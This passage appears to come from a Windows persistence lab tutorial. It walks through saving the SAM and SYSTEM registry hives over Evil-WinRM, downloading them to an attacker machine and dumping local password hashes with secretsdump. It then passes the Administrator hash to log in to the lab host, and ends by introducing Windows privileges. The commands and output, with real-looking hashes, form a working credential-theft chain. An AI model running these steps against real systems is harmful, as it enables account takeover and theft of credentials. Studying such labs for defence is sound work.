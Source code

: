 We then proceed to make a backup of SAM and SYSTEM files and download them to our attacker machine:

- **AttackBox**        

```shell
*Evil-WinRM* PS C:\> reg save hklm\system system.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> reg save hklm\sam sam.bak
    The operation completed successfully.

*Evil-WinRM* PS C:\> download system.bak
    Info: Download successful!

*Evil-WinRM* PS C:\> download sam.bak
    Info: Download successful!
        
```

**Note:** If Evil-WinRM takes too long to download the files, feel free to use any other transfer method.

With those files, we can dump the password hashes for all users using `secretsdump.py` or other similar tools:

- **AttackBox**        

```shell-session
user@AttackBox$ python3.9 /opt/impacket/examples/secretsdump.py -sam sam.bak -system system.bak LOCAL

Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Target system bootKey: 0x41325422ca00e6552bb6508215d8b426
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1cea1d7e8899f69e89088c4cb4bbdaa3:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:9657e898170eb98b25861ef9cafe5bd6:::
thmuser1:1011:aad3b435b51404eeaad3b435b51404ee:e41fd391af74400faa4ff75868c93cce:::
[*] Cleaning up...
        
```

And finally, perform Pass-the-Hash to connect to the victim machine with Administrator privileges:

- **AttackBox**        

```shell-session
user@AttackBox$ evil-winrm -i 10.10.146.108 -u Administrator -H 1cea1d7e8899f69e89088c4cb4bbdaa3
        
```

### Special Privileges and Security Descriptors

A similar result to adding a user to the Backup Operators group can  be achieved without modifying any group membership. Special groups are  only special because the operating system assigns them specific  privileges by default. **Privileges** are simply the  capacity to do a task on the system itself. They include simple things  like having the capabilities to shut down the server up to very  privileged operations like being able to take ownership of any file on  the system. A complete list of available privileges can be found [here](https://docs.microsoft.com/en-us/windows/win32/secauthz/privilege-constants) for reference.
